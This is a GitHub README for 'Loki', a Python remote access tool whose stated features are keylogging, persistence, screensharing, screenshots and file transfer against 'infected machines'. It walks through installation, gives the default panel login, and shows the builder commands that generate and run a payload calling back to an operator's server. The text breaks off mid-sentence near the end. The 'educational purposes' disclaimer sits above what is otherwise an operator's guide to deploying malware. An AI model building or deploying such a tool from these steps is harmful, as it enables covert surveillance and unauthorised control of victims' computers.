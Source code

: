 # Loki

Loki is a simple **R**emote **A**ccess **T**ool.<br/>
Loki uses **RSA-2048** with **AES-256** to keep your communication with infected machines secure.<br/>

[![Version](https://img.shields.io/badge/Version-v0.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/VYRAZg5)
[![Donate](https://img.shields.io/badge/PayPal-Donate-orange.svg)](https://www.paypal.me/Msheikh03)
<br/><br/>

<img src="Screenshots/bots.png" atl=""/>

### Disclaimer

```
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

Loki, just like all my other repos is stricly for **educational** purposes.

### Requirements

-   Python **3.6.x** | **3.7.x** | **3.8.x**

### Server tested on

-   Windows 10
-   Kali Linux

### Bot tested on

-   Windows 10

### Payload generator tested on

-   Windows 10

### Features

-   Upload & Download
-   Chrome Launching
-   Persistence
-   Screenshare
-   Screenshot
-   Keylogger
-   SFTP
-   SSH

### Video from OG dev (enjoy the music!)

https://www.youtube.com/watch?v=UTfZlXGoJ5Y

### Installation

I reccommend you setup a new anaconda virtual environment for package management.

```shell
conda create --name botnet python=3.7
conda activate botnet
```

Once the env is activated (or if you like living recklessly and don't create a dedicated environment) you can install the necessary packages referencing the `requirements.txt`:

```shell
pip install -r requirements.txt
```

### Server side

1. Open `/lib/const.py` & configure your private and public IP's
2. Start loki.py
3. Navigate to http://localhost:5000
4. Login

    ```
    Username: loki
    Password: ikol
    ```

5. Start the server on the same IP as your private IP

### Generate a payload

Navigate to agent directory and run the following command to check all command line parameters `builder.py` accepts. 

```shell
python builder.py -h
```

Run the below to generate a standard agent.

```shell
python builder.py -i 127.0.0.1 -p 8080 -n testagent
```

**While not verified, it's likely the codebase will not compile inside a virtual environment**

Now, once the stager is generated (named `testagent`), move to the `output` directory and run the executable. 

```shell
cd output
./testagent
```

This will generate the agent payload, `testagent_`, in the same output directory. You'll likely need to change the permissions on the payload, so run the following:

```shell
chmod 754 testagent_
./testagent_
```

After a moment or two of waiting, you should see your 

### After connection

-   You can click the id of the bot once it connects

### FYI

-   The bot will call the server using the Public IP, not the private IP
-   The bot will call the server using the port specified on the server tab
